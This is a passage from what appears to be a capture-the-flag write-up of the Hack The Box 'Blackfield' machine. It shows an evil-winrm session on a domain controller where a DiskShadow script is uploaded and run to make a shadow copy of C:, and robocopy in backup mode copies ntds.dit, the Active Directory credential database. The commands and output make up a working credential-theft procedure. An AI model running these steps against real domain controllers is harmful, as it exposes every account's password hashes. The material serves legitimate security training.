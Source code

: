 
After compilation, we transferred the **whare.dsh** file to a temporary directory on the target system. The process was simplified by **evil-winrm**, which included a file upload feature, eliminating the need for traditional file transfer methods. We verified that the **whare.dsh** file was successfully uploaded to the **C:\temp** directory.

````powershell
*Evil-WinRM* PS C:\> mkdir temp


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/4/2025   4:57 PM                temp


*Evil-WinRM* PS C:\> cd temp
*Evil-WinRM* PS C:\temp> upload whare.dsh
                                        
Info: Uploading /home/whare/hackthebox/maquinas/blackfield/whare.dsh to C:\temp\whare.dsh
                                        
Data: 144 bytes of 144 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\temp> 
````

Executing the **dsh** file on the target system created a shadow copy of the **C:** drive on the **Z:** drive. With this in place, we are now able to copy the **ntds.dit** file to an accessible directory. 

````powershell
*Evil-WinRM* PS C:\temp> diskshadow /s whare.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  2/4/2025 4:58:29 PM

-> set context persistent nowriters
-> add volume c: alias whare
-> create
Alias whare for shadow ID {4d1fb59c-b986-4c0e-8d3a-26b502f31790} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {a7297c76-e2f5-4a8f-981b-57566037eac7} set as environment variable.
````

We used the **robocopy** utility to copy the **ntds.dit** file from the **Z:\windows** directory to our current working directory. Below are the commands used to reproduce this proof of concept:

````powershell
*Evil-WinRM* PS C:\temp> robocopy /b z:\windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Tuesday, February 4, 2025 4:59:24 PM
   Source : z:\windows\ntds\
     Dest : C:\temp\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

````